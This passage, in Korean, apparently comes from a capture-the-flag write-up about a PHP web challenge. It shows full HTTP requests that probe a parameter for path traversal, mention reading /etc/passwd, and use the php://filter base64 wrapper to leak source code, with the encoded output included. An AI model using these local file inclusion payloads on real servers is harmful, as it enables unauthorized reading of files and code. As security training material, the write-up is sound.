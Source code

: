 ```

Only the administrator can test this function from 127.0.0.1!
...
```

요청 패킷을 분석해보면 의심스러운 것이 한둘이 아니다.

1. **파라미터** : `fun_004ded7246=load` 에서 볼 수 있듯이 어떤 파라미터를 넘기는 것을 확인할 수 있다. 요기서 개인적으로 LFI(Local File Inclusion)을 의심했다.
2. **Response Cookie** : 쿠키의 `USER=guest;` 값을 보고 어느정도 admin으로 변환하여 admin 요청 처럼 보일 수 있겠다고 생각하였다.
3. **Response Cookie** : `Set-Cookie: X-TOKEN=…` 에서 알 수 있듯이, 특정 토큰을 반환해준다.

개인적으로 많은 부분을 먼저 테스트해보았다. CURL 요청을 위해 USER 쿠키 값을 admin으로 시도해보았지만, admin 권한이 아니었고, SQL Injection을 통해 admin 로그인도 안되었다. 그리하여 의심해볼만한 것은 fun_004ded7246 파라미터였다. 먼저 경로 이동이 되어 파일형태인지 확인하기 위해 가장 평범한 시도를 날려보았다.

```
[ Request ]
POST /index.phtml?fun_004ded7246=asd/../load HTTP/1.1
Host: 114.203.209.112:8000
Cookie: PHPSESSID=km8242du1i5ctdu87piomkf744;
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

url=http://127.0.0.1

[ Response ]
HTTP/1.1 200 OK
...
Set-Cookie: USER=guest
Set-Cookie: X-TOKEN=48f4bdf130d5f895c4ded1a9c3b9a03a30f580d25412886b0d665baa9e8f07eb

Only the administrator can test this function from 127.0.0.1!
...
```

위 요청에서 놀랐던 사실이 2가지 있다.

1. 경로 이동이 되어 타 파일을 읽을 수 있다는 것 (보자마자 바로 `/etc/passwd`를 해보았지만 안되었다. 추측으로는 확장자 이어붙이기를 하는 것으로 예상했는데, 예상이 맞았다.)
2. Response의 Set-Cookie가 동일한 값을 반환해주고 있었다.

1번 내용이 매우 거슬려서 다양한 시도를 해보았고, 결국 PHP Wrapper를 이용하여 내부 파일을 열람할 수 있었다. (참고로 처음부터 php wrapper를 했는데, 오타 때문에 몇시간을 날렸다.)

```
[ Request ]
POST /index.phtml?fun_004ded7246=php://filter/convert.base64-encode/resource=load HTTP/1.1
Host: 114.203.209.112:8000
Cookie: PHPSESSID=km8242du1i5ctdu87piomkf744;
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

url=http://127.0.0.1

[ Response ]
HTTP/1.1 200 OK
...

<!-- Begin page content -->
    PD9waHAKCi8vIExPQ0FUSU9OIDogLi9pbnRlcm5hbF9lMDEzNGNkNWE5MTcucGhwCgplcnJ
...
```
